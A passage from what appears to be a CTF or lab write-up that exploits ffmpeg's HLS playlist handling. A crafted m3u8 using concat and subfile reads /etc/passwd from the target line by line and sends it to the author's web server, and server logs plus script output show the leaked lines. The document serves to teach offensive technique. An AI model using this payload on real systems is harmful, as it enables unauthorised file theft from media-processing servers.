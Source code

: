 On uploading `mal.avi`, there’s hit at the webserver, including a request for
the header file and then exfil data:

    
    
    10.10.11.157 - - [28/Jul/2022 09:45:21] "GET /header.m3u8 HTTP/1.1" 200 -
    10.10.11.157 - - [28/Jul/2022 09:45:21] "GET ?root:x:0:0:root:/root:/bin/bash HTTP/1.1" 301 -
    

That’s the first line of an `/etc/passwd` file. Unfortunately, it gets cut at
any newline character.

#### Read Next Line

Still following the hackerone report, to get the next line of the file, I’ll
count that the first line had 32 characters in it (including the new line):

    
    
    oxdf@hacky$ echo "root:x:0:0:root:/root:/bin/bash" | wc -c
    32
    

Instead of using the `file` protocol, it’s now using the `subfile`
[protocol](https://ffmpeg.org/ffmpeg-protocols.html#subfile) to read parts of
a file. The number is based at 0 (despite what the hackerone report implies):

    
    
    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://10.10.14.6/header.m3u8|subfile,,start,32,end,10000,,:///etc/passwd
    #EXT-X-ENDLIST
    

On submitting, it returns the next line:

    
    
    10.10.11.157 - - [28/Jul/2022 09:53:44] "GET /header.m3u8 HTTP/1.1" 200 -
    10.10.11.157 - - [28/Jul/2022 09:53:44] "GET ?daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin HTTP/1.1" 301 -
    

#### Script Fails

I spent too long trying to write a script that would take a file name, fetch
it, and print it correctly to the terminal (or allow for redirecting to a
file). I started using Python’s `http.server`, but eventually gave up on that
and pivoted to Flask. I made a nice script that worked great until I got a
request with spaces in it:

    
    
    oxdf@hacky$ python read.py /etc/passwd
     * Serving Flask app 'read' (lazy loading)
     * Environment: production
       WARNING: This is a development server. Do not use it in a production deployment.
       Use a production WSGI server instead.
     * Debug mode: off
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin